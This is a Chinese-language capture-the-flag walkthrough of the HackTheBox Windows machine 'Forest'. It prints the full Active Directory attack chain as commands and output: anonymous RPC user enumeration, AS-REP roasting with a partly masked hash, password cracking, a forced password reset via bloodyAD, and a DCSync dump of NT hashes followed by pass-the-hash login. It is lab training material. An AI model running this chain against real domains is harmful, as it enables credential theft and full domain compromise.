



## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Forest  
❯ nmap forest.htb -sV -T4
 
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos 
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.68 seconds
```

将**htb.local**加入**/etc/hosts**

## Userenum

```
[root@kali] /home/kali/Forest  
❯ rpcclient -U "" -N 10.10.xx.xx
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
user:[john] rid:[0x2581]
```

可以看到最后有几个账户，写入到**usernames.txt**中

使用**Kerbrute**验证用户是否存在

```
[root@kali] /home/kali/Forest  
❯ ./kerbrute_linux_amd64 userenum -d htb.local usernames.txt --dc htb.local                                   

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - Ronnie Flathers @ropnop

 Using KDC(s):
  htb.local:88
 [+] VALID USERNAME:       john@htb.local
 [+] VALID USERNAME:       lucinda@htb.local
 [+] VALID USERNAME:       svc-alfresco@htb.local
 [+] VALID USERNAME:       andy@htb.local
 [+] VALID USERNAME:       santi@htb.local
 [+] VALID USERNAME:       sebastien@htb.local
 [+] VALID USERNAME:       mark@htb.local
 Done! Tested 7 usernames (7 valid) in 0.494 seconds
```

## Kerberos Hash

```
[root@kali] /home/kali/Forest  
❯ impacket-GetNPUsers -usersfile usernames.txt -no-pass -dc-ip "10.10.xx.xx" htb.local/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] User sebastien@htb.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda@htb.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User andy@htb.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark@htb.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi@htb.local doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@htb.local@HTB.LOCAL:581886053a84371d1a088f2f1a1939ae$db01aab7678e3e24efe617fa3b286847354bf71b94618cb06a428e0907cec6851c587d4455a66b61e42570a53b419b74c0e4d260292966c7ad18339facaa55ab1007cccf6aaf53f243dacd5b9e473b21d1cfc0ef2ee0ac65cedecd07a7a88a16169d2954ba9ae311d739f9e6fd2ee59a2fb0808d1834efdceadee99bxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[-] User john@htb.local doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
```

可以发现**svc-alfresco**用户并没开启预身份验证标志，因此工具能够成功获取到该用户的 **AS-REP** 哈希，进一步密码破解

## Crack password

```
[root@kali] /home/kali/Forest  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxxxxxxxxxxx          ($krb5asrep$23$svc-alfresco@htb.local@HTB.LOCAL)     
```

目标机器的**5985**端口是打开的，可以使用**Evil-winrm**



## Privilege Escalation

### Bloodhound

将**forest.htb.local**添加到**/etc/hosts**

```
[root@kali] /home/kali/Forest  
❯ bloodhound-python -u svc-alfresco -p "xxxxxxxxx" -d htb.local -ns 10.10.xx.xx -c All
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
INFO: Found 33 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
WARNING: Failed to get service ticket for FOREST.htb.local, falling back to NTLM auth
CRITICAL: CCache file is not found. Skipping...
WARNING: DCE/RPC connection failed: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```



可以看到**svc-alfresco**拥有**John**用户，而**John**用户可以对**htb.local**进行`DCSync`攻击

### About DCSync 

**DCSync** 攻击是一种针对 **Active Directory**（**AD**）的攻击方式，攻击者通过模拟域控制器（**DC**）来获取域中用户的密码哈希。通过这种方式，攻击者无需直接访问目标计算机或服务的密码，而是通过“同步”请求来窃取目标账户的哈希。

### Set John's Password

因为分析域内，**john**是可以进行**DCSync**攻击，**svc**是无法直接攻击的，所以需要修改一下他的密码（前提是**svc**对**john**有控制权限

```
[root@kali] /home/kali/Forest  
❯ bloodyAD --host '10.10.xx.xx' -d 'htb.local' -u 'svc-alfresco' -p 'xxxxxxxxx' set password 'john' '12345678'           
[+] Password changed successfully!
```

### SecretsDump

使用**impacket-secretsdump**来获取域控上的**hash**

```
[root@kali] /home/kali/Forest  
❯ impacket-secretsdump "htb.local/john:12345678"@10.10.10.161       
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:3269XXXXXXXXXXXXXXXX:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
```

最后**Evil-winrm**用**Hash**登录拿到**root.txt**



## Summary

`User`：使用**rpcclient**进行用户枚举，当然也可以使用**ldapsearch**，不过后者输出格式会更加复杂。使用**GetNPUsers**来进行免密访问获取账户的哈希（前提是帐户设置了 **UF\_DONT\_REQUIRE\_PREAUTH**）。随后进行密码爆破，通过**5985**端口远程登录账户得到**user.txt**

`Root`：通过拿到的**svc**账户使用**bloodhound**进行域内分析，找到一条**DCSync**的线路，在之前我的文章[HTB-Administrator - HYH](https://www.hyhforever.top/htb-administrator/)中也有关于这个的内容。SVC本身账户无法进行**DCSync**攻击，而需要设置**john**的密码后通过**John**实施攻击。
